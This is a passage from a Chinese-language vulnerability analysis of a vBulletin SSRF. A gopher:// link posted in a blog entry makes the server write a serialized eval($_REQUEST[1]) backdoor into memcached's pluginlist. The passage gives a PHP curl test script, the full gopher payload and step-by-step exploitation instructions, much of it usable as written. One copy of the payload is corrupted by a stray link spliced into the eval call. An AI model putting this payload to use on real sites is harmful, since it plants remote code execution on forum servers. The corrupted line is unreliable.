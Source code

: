 但是在本地测试时，上面的EXP并不能使用，经抓包分析，在我们测试时链接中的%0D%0A并未能转换成换行符。 测试代码： #!php $url = 'http://172.16.80.158:11211/%0D%0Aset pluginlist 0 120 53%0D%0Aa:1:{s:12:"global_start";s:19:"eval($_REQUEST[1](http://seclists.org/fulldisclosure/2015/Aug/58));";}%0D%0A1%0D%0A1%0D%0A1%0D%0Aquit'; $curl = curl_init(); curl_setopt($curl, CURLOPT_URL, $url); curl_setopt($curl, CURLOPT_RETURNTRANSFER, true); curl_setopt($curl, CURLOPT_HEADER, false); $str = curl_exec($curl); curl_close($curl); var_dump($str);

抓包结果：

![enter image description here](http://drops.javaweb.org/uploads/images/d8e00406e5a9add32d4635bc0c181b15afb9aebd.jpg)

最后多次测试和查阅参考资料发现，在`gopher`协议下`EXP`可以复现，但是`vB_Upload_Userpic`只允许`(http|ftp)s`开头的链接。

参考资料：[https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit?pli=1](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit?pli=1)

文中给出的Exploit：

```
gopher://localhost:11211/1%0astats%0aquit

dict://locahost:11211/stats

ldap://localhost:11211/%0astats%0aquit

```

然而将HTTP协议改为Gopher协议

```
$url = 'gopher://172.16.80.158:11211/%0D%0Aset pluginlist 0 120 53%0D%0Aa:1:{s:12:"global_start";s:19:"eval($_REQUEST[1]);";}%0D%0A1%0D%0A1%0D%0A1%0D%0Aquit';

```

抓包结果：

![enter image description here](http://drops.javaweb.org/uploads/images/5736f94da6040c54a8fd9fcab25712cd6216c47d.jpg)

可以看出，此时的%0D%0A转换成换行符了。 接下来，我们需要的是一个能带入`gopher://`的`SSRF`点，经过搜索对`vB_vURL`的调用，位置在`./blog_post.php`的`donotify`内，函数`send_ping_notification()`。

函数`send_ping_notification()`的声明在`./includes/blog_functions_post.php`，函数中调用的`fetch_head_request()`调用了`vB_vURL`类来发起请求，整个过程中$url变量未作过滤。 我们在前端可勾选发表博客中的附加选项`通知在这篇文章中链接的其它博客`，来调用这个变量。

0x02 漏洞利用
=========

* * *

1.  注册用户并登录。
2.  发表新文章（`http://*host*/blog_post.php?do=newblog`）。
3.  加入超链接`gopher://localhost:11211/%0D%0Aset pluginlist 0 120 53%0D%0Aa:1:{s:12:"global_start";s:19:"eval($_REQUEST[1]);";}%0D%0A1%0D%0A1%0D%0A1%0D%0Aquit`。

![enter image description here](http://drops.javaweb.org/uploads/images/7a552eb35eab8453298f035659bf48891ffb3955.jpg)

1.  在`附加选项`中勾选`通知在这篇文章中链接的其它博客`。
